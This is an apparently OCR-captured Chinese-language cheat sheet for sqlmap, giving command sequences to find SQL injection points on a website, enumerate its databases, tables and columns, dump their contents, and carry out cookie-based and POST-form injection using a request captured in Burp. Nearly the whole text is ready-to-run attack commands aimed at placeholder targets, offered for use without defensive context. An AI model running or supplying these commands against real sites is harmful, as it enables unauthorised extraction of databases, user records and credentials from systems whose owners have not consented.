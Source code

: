 ​        超级SQL注入工具（github）

sqlmap一把梭：

注意：命令为kali linux中运行的 （windows中用python sqlmap.py执行）

##### 1#、注入六连：

1.sqlmap -u "[http://www.xx.com?id=x](http://www.xx.com/?id=x)"  【查询是否存在注入点

2.--dbs     【检测站点包含哪些数据库

3.--current-db   【获取当前的数据库名

4.--tables -D "db_name" 【获取指定数据库中的表名 -D后接指定的数据库名称

5.--columns -T "table_name" -D "db_name" 【获取数据库表中的字段

6.--dump -C "columns_name" -T "table_name" -D "db_name" 【获取字段的数据内容

##### 2#、COOKIE注入：

sqlmap -u "[http://www.xx.com](http://www.xx.com/?id=x)/xxx.asp" --cookie "id=XXX  cookie" --level 2 【cookie注入 后接cookie值

##### 3#、POST注入：

（1）目标地址http:// [www.xxx.com](http://www.xxx.com/) /login.asp

（2）打开burp代理

（3）点击表单提交

（4）burp获取拦截信息（post）

（5）右键保存文件（.txt）到指定目录下

（6）运行sqlmap并执行如下命令：

用例：sqlmap -r okay.txt -p username

// -r表示加载文件(及步骤（5）保存的路径)，-p指定参数（即拦截的post请求中表单提交的用户名或密码等name参数）

（7）自动获取表单：--forms自动获取表单

例如：sqlmap -u [www.xx.com/login.asp](http://www.xx.com/login.asp) --forms

（8）指定参数搜索：--data

例如:sqlmap -u [www.xx.com/login.asp](http://www.xx.com/login.asp) --data "username=1"

##### 4#、常用指令：

\1.   --purge   【重新扫描（--purge 删除原先对该目标扫描的记录）

\2.  --tables   【获取表名

\3.   --dbs     【检测站点包含哪些数据库

\4.   --current-db   【获取当前的数据库名

\5.   --current-user 【检测当前用户

\6.  --is-dba  【判断站点的当前用户是否为数据库管理员
